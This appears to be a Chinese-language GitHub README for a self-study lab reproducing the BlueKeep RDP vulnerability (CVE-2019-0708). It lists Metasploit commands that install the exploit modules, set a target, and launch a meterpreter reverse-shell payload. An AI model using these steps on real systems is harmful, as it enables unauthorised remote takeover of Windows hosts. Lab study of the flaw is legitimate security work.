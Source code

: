 # CVE-2019-0708-Windows
这篇文章将分享Windows远程桌面服务漏洞（CVE-2019-0708），并详细讲解该漏洞及防御措施。作者作为网络安全的小白，分享一些自学基础教程给大家，主要是关于安全工具和实践操作的在线笔记，希望您们喜欢。同时，更希望您能与我一起操作和进步，后续将深入学习网络安全和系统安全知识并分享相关实验。总之，希望该系列文章对博友有所帮助，写文不易，大神们不喜勿喷，谢谢！

<br />

对应博客： <br />
[[网络安全自学篇] 五十八.Windows漏洞利用之再看CVE-2019-0708及Metasploit反弹shell](https://blog.csdn.net/Eastmount/article/details/104801332) <br />
[[网络安全自学篇] 四十四.Windows远程桌面服务漏洞（CVE-2019-0708）复现及详解](https://blog.csdn.net/Eastmount/article/details/104134085) <br />

<br />

<B >核心命令：</B><br />
```python
# 复制文件
cp ./rdp/rdp.rb /usr/share/metasploit-framework/lib/msf/core/exploit/
cp ./rdp/rdp_scanner.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/
cp ./rdp/cve_2019_0708_bluekeep.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/
cp ./rdp/cve_2019_0708_bluekeep_rce.rb /usr/share/metasploit-framework/modules/exploits/windows/rdp/

# 开启工具
msfconsole
reload_all
search 0708

# 使用脚本
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

# 查看信息
show options
show targets
info

# 设置监听地址、目标地址、反弹payload、目标类型
set rhosts 192.168.44.132
set lhost 192.168.44.129
set rdp_client_ip 192.168.44.129
set payload windows/x64/meterpreter/reverse_tcp
unset RDP_CLIENT_NAME
set target 3

# 运行脚本
run
exploit

# 设置带宽
Set GROOMSIZE 40
```



参考文献：<br />
[1] [https://github.com/rapid7/metasploit-framework/pull/12283?from=groupmessage&isappinstalled=0](https://github.com/rapid7/metasploit-framework/pull/12283?from=groupmessage&isappinstalled=0) <br />
[2] [https://github.com/n1xbyte/CVE-2019-0708](https://github.com/n1xbyte/CVE-2019-0708) <br />

